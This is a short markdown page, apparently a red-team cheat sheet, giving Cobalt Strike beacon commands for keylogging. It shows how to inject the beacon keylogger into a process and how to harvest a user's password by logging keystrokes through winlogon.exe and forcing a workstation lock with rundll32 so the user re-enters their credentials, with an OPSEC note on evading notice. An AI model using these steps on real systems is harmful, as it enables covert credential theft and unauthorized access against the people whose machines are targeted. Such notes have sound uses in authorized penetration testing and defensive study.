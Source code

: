 # Cobalt Strike

This will spawn to a child process when using the spawnto beacon command otherwise it'll use the rundll32 as default. You can optionally spoof to another process

```
beacon> keylogger <pid> <arch>
```

## Harvest User's Credentials

> [!WARNING] OPSEC Warning
> Use this method with caution.
> > [!IMPORTANT]
> > Ensure the process is migrated to `explorer.exe` in order to record keystrokes.

Record keystrokes through `winlogon.exe` process identifier then lockout the computer to let the user enter his credentials.

```
beacon> keylogger <winlogon_pid> x64

beacon> shell rundll32.exe user32.dll,LockWorkstation
```